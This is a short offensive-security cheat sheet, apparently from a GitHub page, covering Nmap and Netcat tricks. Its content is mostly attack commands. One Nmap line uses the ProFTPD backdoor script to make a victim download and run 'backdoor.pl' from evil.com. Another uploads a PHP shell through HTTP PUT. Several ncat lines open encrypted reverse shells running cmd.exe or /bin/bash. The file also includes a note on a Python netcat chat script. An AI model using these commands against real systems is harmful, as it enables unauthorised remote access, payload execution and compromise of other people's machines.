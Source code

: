 ### Nmap using as an exploit

nmap --script ftp-proftpd-backdoor --script-args ftp-proftpd-backdoor.cmd=”wget http://evil.com/backdoor.pl & perl backdoor.pl” victim.tld

### Nmap to upload files via http

nmap -p80 --script http-fileupload-exploiter.nse

### Nmap using put method

nmap -p 80 *ip* --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

## Netcat tricks

### Encrypted reverse shell with ncat from windows to linux

Set up the listener and make sure to allow authorization for the target to connect back to the listener

```
ncat -lvp 4444 --allow 10.11.8.58 --ssl

Then from the windows computer shovel the shell to linux

ncat --exec "cmd.exe" -nv 10.11.0.39 4444 --ssl
```

### Encrypted reverse shell with ncat from linux to linux

```
ncat -lvp 4444 --allow computer that will connect  --ssl

ncat -nv 127.0.0.1 4444 -e /bin/bash --ssl

```

### Netcat persistant

```
netcat -L

```

### Python Netcat usage and tricks

The one located inside viper payloads is just a chat server so far and needs work

```
Examples

./netcat.py -l -p 8888       server

hi client!                     typed on stdin

hi server!                     from client

^C                             bye

./netcat.py localhost 8888   client

hi client!                     from server

hi server!                     typed on stdin

```